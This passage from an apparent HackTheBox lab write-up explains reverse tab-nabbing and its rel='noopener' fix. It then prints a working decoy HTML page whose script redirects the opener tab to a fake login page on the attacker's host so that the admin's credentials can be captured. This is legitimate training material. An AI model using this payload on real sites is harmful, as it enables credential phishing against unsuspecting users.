 #### Theory

0xprashant found this neat [reverse tab-nabbing
bug](https://0xprashant.in/posts/htb-bug/) in the HTB platform August 2020.
When a web developer wants a link to open in a new tab, they add
`target="_blank"` to the `<a>` tag. The issue is, if that link leads to a
malicious page and mitigations aren’t in place, then JavaScript on that page
can actually change the location of the original page. So this is really only
an issue if you are linking to user-controlled content that the site doesn’t.
The mitigation for this is to also add `rel="noopener nofollow"` to the `<a>`
tag as well.

For example, the HackTheBox pages for retired machines show links to user
writeups. Looking at the source on HTB for the link to my RopeTwo writeup, the
mitigation is in place:

![image-20220113073246052](https://0xdfimages.gitlab.io/img/image-20220113073246052.png)

Looking at the profile links on Developer, the `rel` is missing, suggesting
this link is vulnerable to tab-nabbing:

![image-20220113073356495](https://0xdfimages.gitlab.io/img/image-20220113073356495.png)

#### Strategy

The goal here will be to host a page so that when the admin clicks on the
link, it open in a new tab that’s now visible. The JavaScript in that tab will
reverse tab-nab the original tab to send it to another page I’m hosting that
looks like the login page for Developer. When the admin is done reading my
page and comes back, they’ll think they’ve been logged out for some reason,
and log in again, where I capture the creds.

#### Generate Tab-Nabber

I’ll grab the tab nabber page from the 0xprashant post and edit it to point to
the login path on my host:

    
    
    <html>
      <body>
        <h2>Challenge Writeup</h2>
        <p>This challenge was quite well designed! Good job by the developers at Developer for this one. I would definitely recommend it to my friends. It required critical thinking and tools like Ghidra to get the job done</p>
        <script>
        if (window.opener) window.opener.parent.location.replace('http://10.10.14.6/accounts/login/');
        if (window.parent != window) window.parent.location.replace('https://10.10.14.6/accounts/login/');           
        </script>
      </body>
    </html>
    

I also added a silly generic writeup to give the admin something to read.
